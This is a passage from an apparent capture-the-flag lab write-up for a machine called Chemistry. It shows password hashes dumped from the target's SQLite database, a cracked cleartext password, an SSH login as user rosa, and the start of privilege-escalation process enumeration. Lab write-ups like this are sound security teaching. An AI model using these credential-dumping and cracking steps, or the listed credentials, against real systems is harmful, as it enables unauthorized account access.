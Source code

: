 Retrieved the SQLite database file from the target and analyzed it locally:
```bash
❯ sqlite3 database.db
```

```sql
SQLite version 3.43.2 2023-10-10 13:08:14
Enter ".help" for usage hints.
sqlite> .tables
sqlite> .schema user
CREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
);
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|jcs|81e257187723947b0872c6dcae5afe77
```

The database contained several username and MD5 password hash combinations, and Rosa's hash was easily cracked. The cleartext password was "unicorniosrosados". These credentials successfully logged in via SSH:
```bash
❯ ssh rosa@chemistry.htb
rosa@chemistry.htb's password:

rosa@chemistry:~$ cat user.txt
529e3093bc1c52e29a7--snip--
```

## Privilege Escalation

### Process Enumeration

Discovered two important Python processes running:
```bash
rosa@chemistry:~$ ps aux |grep app |grep -v grep
app         1021  0.1  4.7 1289244 94208 ?       Ssl  17:40   0:03 /usr/bin/python3.9 /home/app/app.py
root        1023  0.0  1.3  35408 27620 ?        Ss   17:40   0:00 /usr/bin/python3.9 /opt/monitoring_site/app.py
```
